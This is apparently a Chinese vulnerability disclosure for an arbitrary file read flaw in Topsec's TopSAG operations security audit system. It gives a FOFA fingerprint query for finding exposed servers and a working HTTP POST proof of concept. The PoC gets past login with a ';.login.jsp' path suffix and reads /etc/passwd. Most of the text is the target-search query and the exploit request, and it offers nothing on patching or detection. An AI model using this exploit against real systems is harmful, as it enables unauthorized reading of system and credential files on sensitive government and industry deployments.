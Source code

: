 # 天融信运维安全审计系统存在任意文件读取漏洞

天融信运维安全审计系统TopSAG是基于自主知识产权NGTOS安全操作系统平台和多年网络安全防护经验积累研发而成，系统以4A管理理念为基础、安全代理为核心，在运维管理领域持续创新，为客户提供事前预防、事中监控、事后审计的全方位运维安全解决方案，适用于政府、金融、能源、电信、交通、教育等行业。天融信运维安全审计系统download存在任意文件读取漏洞

## fofa

```javascript
header="iam" && server="Apache-Coyote/"
```

## poc

```javascript
POST /iam/download;.login.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Content-Length: 67

filename=1.txt&filepath=/etc/passwd
```

![image-20241025114628455](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251146576.png)